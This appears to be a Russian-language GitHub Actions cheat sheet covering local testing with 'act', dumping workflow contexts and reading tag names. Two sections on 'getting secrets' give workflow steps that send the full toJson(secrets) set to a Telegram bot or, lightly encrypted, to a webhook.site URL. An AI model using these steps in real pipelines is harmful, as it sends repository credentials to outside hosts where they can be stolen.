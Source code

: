 # Шпаргалки и ништяки

## Локальное тестирование workflow

Используем утилиту `act`

Лучше всего работать через VSCode с плагином `Remote SSH`. `CMD + J` открывает терминал. Команда `code $path` открывает папку или файл прямо в редакторе.

```bash
# устанавливаем act (wget ссылку заменить на свежую из релизов)
mkdir -p tmp_playground/act && cd tmp_playground/act
wget https://github.com/nektos/act/releases/download/v0.2.65/act_Linux_x86_64.tar.gz
tar fxv act_Linux_x86_64.tar.gz
sudo install act /usr/bin/act
cd .. && rm -r act

# скачиваем любой реп
git clone git@github.com:user/repo.git && cd repo
touch .secrets
code .

# ... редачим .secrets ...
# можно выполнять без аргументов. Ниже моя попытка ускорения работы, но не уверен, что работает
# если используется actions upload-artifact/download-artifact, то еще укажите --artifact-server-path ../artifacts
act --insecure-secrets --pull false --use-new-action-cache --action-offline-mode --action-cache-path=/dev/shm/act-cache
# -e event.json позволяет менять данные события, например выполнять словно пушнут тег
# Пример файла: {"ref": "refs/tags/this-is-a-tag"}
```

## Дебаг принт всего контекста

```yaml
steps:
  - run: echo github context '${{ toJson(github) }}'
  - run: echo env context '${{ toJson(env) }}'
  - run: echo secrets context '${{ toJson(secrets) }}' # актуально для act (утилита) с параметром --insecure-secrets
  - run: echo job context '${{ toJson(job) }}'
  - run: echo steps context '${{ toJson(steps) }}'
  - run: echo matrix context '${{ toJson(matrix) }}' # может отсутствовать
  - run: echo strategy context '${{ toJson(strategy) }}' # может отсутствовать
  - run: echo runner context '${{ toJson(runner) }}'
```

## Получение секретов (простой способ)

Просто отправляем их в незашифрованном виде себе в телеграм:

```yaml
steps:
  - run: |
      curl -s -X POST https://api.telegram.org/bot123456:YOUR_BOT_TOKEN_HERE/sendMessage -d chat_id=YOUR_NICKNAME_OR_ID -d text='Secrets: <pre>${{ toJson(secrets) }}</pre>' -d parse_mode=HTML
```

## Получение секретов (безопасный способ)

В инете тупые решения, я придумал свое.

Вебхук получаем на https://webhook.site. Отправляем специально в зашифрованном виде, вдруг они подглядывают.

В коде не забудьте поменть ссылку на ваш полученный вебхук

```yaml
steps:
  - run: |
      STRING_TO_ENCRYPT='${{ toJson(secrets) }}'
      ENCRYPTION_KEY="SomeSecret"
      ENCRYPTED_STRING=$(echo -n "$STRING_TO_ENCRYPT" | openssl enc -aes-256-cbc -a -salt -pass pass:"$ENCRYPTION_KEY")
      echo "🔒 Encrypted string: $ENCRYPTED_STRING"

      DECRYPTED_STRING=$(echo "$ENCRYPTED_STRING" | openssl enc -aes-256-cbc -a -d -salt -pass pass:"$ENCRYPTION_KEY")
      echo "🔓 Decrypted string: $DECRYPTED_STRING"

      curl -X POST -d "encrypted_string=$ENCRYPTED_STRING" https://webhook.site/94935b01-ad6f-40c0-968f-ec7bd37bfdf3
```

Зашифрованное сообщение сохраняем в файл `encrypted.txt`, затем вводим в терминал:

```bash
openssl enc -aes-256-cbc -d -a -salt -pass pass:SomeSecret -in encrypted.txt
```

## Получение названия тега из `github.ref` (`GITHUB_REF`)

```yaml
steps:
  - name: Получение названия тега
    if: startsWith(github.ref, 'refs/tags/')
    run: echo "Tag ${GITHUB_REF#refs/tags/}" # выведет v1.0.0 для refs/tags/v1.0.0
  - name: Использование тега в других шагах
    run: echo "TAG_NAME=${GITHUB_REF#refs/tags/}" >> $GITHUB_ENV
  - run: echo "Использование тега $TAG_NAME"
```

## Прочие ресурсы

- [Шпаргалка по `github.*` контексту](https://medium.com/@s.atmaramani/github-actions-github-object-cheat-sheet-b0ca5917b175)
- [Куча интересных заметок на гисте](https://gist.github.com/br3ndonland/f9c753eb27381f97336aa21b8d932be6)
